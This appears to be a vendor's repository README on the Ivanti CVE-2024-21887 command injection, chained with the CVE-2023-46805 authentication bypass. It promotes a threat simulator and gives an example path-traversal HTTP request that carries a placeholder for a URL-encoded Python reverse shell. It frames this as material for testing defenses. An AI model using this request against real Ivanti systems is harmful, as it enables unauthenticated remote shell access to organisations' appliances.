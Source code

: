 # Ivanti CVE-2024-21887 PoC Exploit
CISA issued an emergency directive on Ivanti CVE-2024-21887 vulnerability. The agency also reported that CVE-2024-21887 pose unacceptable risks to many federal agencies and should be mitigated immediately.<br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2024-21887 vulnerability.

Test security controls against the CVE-2024-21887 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-21887 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information check out our blog post: [Ivanti CVE-2023-46805 and CVE-2024-21887 Zero-Day Vulnerabilities Actively Exploited](https://www.picussecurity.com/resource/blog/ivanti-cve-2023-46805-and-cve-2024-21887-zero-day-vulnerabilities)


CVE-2024-21887 Proof-of-concept (POC)
----------------------
Ivanti CVE-2024-21887 vulnerability is a command injection vulnerability found in "/api/v1/license/key-status/<path:node_name>" API endpoint.<br> 
Adversaries were able to access this endpoint using the CVE-20203-46805 vulnerability and append their payload to be executed by the vulnerable Ivanti product.<br>
The example HTTP GET request below exploits CVE-2023-46805 vulnerability to view system information without authentication.

#### Example CVE-2024-21887 Exploit:
```http
GET /api/v1/totp/user-backup-code/../../license/keys-status/<url_encoded_python_reverse_shell> 
HTTP/1.1 Host: <IP_Vulnerable_Ivanti_Product>
```

Disclaimer
----------
We do not have any disclamer.
